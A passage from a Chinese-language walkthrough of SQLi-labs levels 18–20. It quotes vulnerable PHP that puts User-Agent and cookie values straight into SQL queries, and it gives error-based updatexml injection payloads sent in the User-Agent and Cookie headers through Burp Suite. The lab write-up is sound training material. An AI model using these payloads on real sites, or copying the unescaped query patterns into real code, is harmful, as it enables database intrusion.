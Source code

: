 4. ```php
   $insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
   ```

5. 先用 Burp Suite 拦截，修改 User-Agent 后再向服务器发送请求

6. 利用报错信息得到期望的数据库信息

7. ```
   User-Agent: 1'or updatexml(1,concat('~',(select database())),3),2,3)#
   ```

## less-19_referer
### 使用 Burp Suite 进行 Header Injection

跟 less-18 几乎一样，只是注入位置从 user-agent 到了 referer

## less-20_cookie
### 使用 Burp Suite 进行 Header Injection

```php
$cookee = $_COOKIE['uname'];
$format = 'D d M Y - H:i:s';
$timestamp = time() + 3600;
echo "<center>";
echo '<br><br><br>';
echo '<img src="../images/Less-20.jpg" />';
echo "<br><br><b>";
echo '<br><font color= "red" font size="4">';	
echo "YOUR USER AGENT IS : ".$_SERVER['HTTP_USER_AGENT'];
echo "</font><br>";	
echo '<font color= "cyan" font size="4">';	
echo "YOUR IP ADDRESS IS : ".$_SERVER['REMOTE_ADDR'];			
echo "</font><br>";			
echo '<font color= "#FFFF00" font size = 4 >';
echo "DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE <br>";
echo '<font color= "orange" font size = 5 >';			
echo "YOUR COOKIE : uname = $cookee and expires: " . date($format, $timestamp);
```



```php
echo "<br></font>";
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
$result=mysqli_query($con1, $sql);
if (!$result)
{
    die('Issue with your mysql: ' . mysqli_error($con1));
}
$row = mysqli_fetch_array($result, MYSQLI_BOTH);
```

由代码片段知变量 \$cookee 可以进行注入，而 \$cookee 变量又是从 \$cookee = \$_COOKIE['uname']; 设置的

故先对网页进行拦截，再修改 cookie 值进行报错注入

```
Cookie: uname=admin' or updatexml(1,concat('~',(select database())),3)#
```



